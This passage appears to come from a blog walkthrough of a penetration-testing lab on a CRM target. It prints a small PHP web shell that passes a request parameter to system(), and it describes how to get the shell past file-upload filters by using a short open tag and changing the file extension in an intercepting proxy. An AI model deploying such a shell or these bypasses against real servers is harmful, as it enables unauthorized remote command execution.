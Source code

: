 {% highlight php %}


<?

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

{% endhighlight %}

<div class="notice--info">
  <h4>Tip:</h4>
  <p><b><?</b> instead of <b><?php</b> is intentional, this sometimes bypasses  upload restrictions</p>
</div>

<img src="/assets/img/blog/pentestit-crm/crm-08.png">

Looks like the upload was still blocked. This is common file upload vulnerability scenario and therefore there are many tricks we can utilize. I'd suggest doing reading on these resources if you are unfamiliar with the topic:

* http://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/
* https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487
* https://www.owasp.org/index.php/Unrestricted_File_Upload

I resolved the problem using a Burpsuite interception proxy! First of all setup your browser to go through burp, rename our php file to a jpg, upload it, intercept the request and change the extension back to php. It should look something like this:

<img src="/assets/img/blog/pentestit-crm/crm-09.png">
